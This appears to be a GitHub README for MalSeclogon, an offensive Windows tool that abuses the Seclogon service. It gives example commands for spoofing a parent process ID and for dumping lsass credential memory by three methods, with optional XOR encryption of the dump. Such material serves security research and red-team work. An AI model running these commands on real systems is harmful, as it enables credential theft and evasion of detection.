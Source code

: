# MalSeclogon
A little tool to play with the Seclogon service.

Full technical details at:
- https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html
- https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html

## Usage
```
        MalSeclogon v0.2
        @splinter_code

Args:
-p Pid of the process to spoof the PPID through seclogon service
-d Dump lsass method
        1 = Dump lsass by using leaked handles
        2 = Dump lsass by using leaked handles and cloned lsass process
        3 = Dump lsass by stealing handle from seclogon. (Default)
-o Output path of the dump (default C:\lsass.dmp)
-c Commandline of the spoofed process, default: cmd.exe (not compatible with -d)
-k Xor key to encrypt the dump. Compatible only with -d 3. Allowed values 1-255. Default = 40.
-f Path to an encrypted dump file. This decrypt the dump. If no -k key are specified the default value is 40.

Examples:
- Run a process with a spoofed PPID:
        Malseclogon.exe -p [PPID] -c cmd.exe
- Dump lsass by using leaked handles:
        Malseclogon.exe -d 1
- Dump lsass by using leaked handles and cloned lsass process:
        Malseclogon.exe -d 2
- Dump lsass by stealing handle from seclogon using xor key 40:
        Malseclogon.exe -d 3 -o C:\lsass.dmp.xor -k 40
- Decrypt an lsass dmp file with the key 40:
        Malseclogon.exe -f C:\lsass.dmp.xor -k 40

```

## Build instructions
Do not build "Debug" or "x86" releases. The compiled binary won't work if using these builds.
The right build to use is "Release x64".
